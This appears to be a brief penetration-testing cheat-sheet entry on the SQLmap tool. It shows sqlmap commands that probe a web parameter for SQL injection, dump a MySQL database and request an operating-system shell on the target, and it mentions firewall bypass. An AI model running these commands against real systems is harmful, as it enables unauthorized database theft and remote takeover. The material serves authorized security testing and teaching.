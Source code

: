 #### SQLmap

Tools such as SQLmap simplify the extraction of information from databases. 

```text
sqlmap -u http://10.14.1.23/test.php?id=1 -p "id"
sqlmap -u http://10.14.1.23/test.php?id=1 -p "id" --dbms=mysql --dump
```

SQLmap also has numerous other features including firewall bypass and attempting to gain a shell on the target system.

```text
sqlmap -u http://10.14.1.23/test.php?id=1 -p "id" --dbms=mysql --os-shell
```

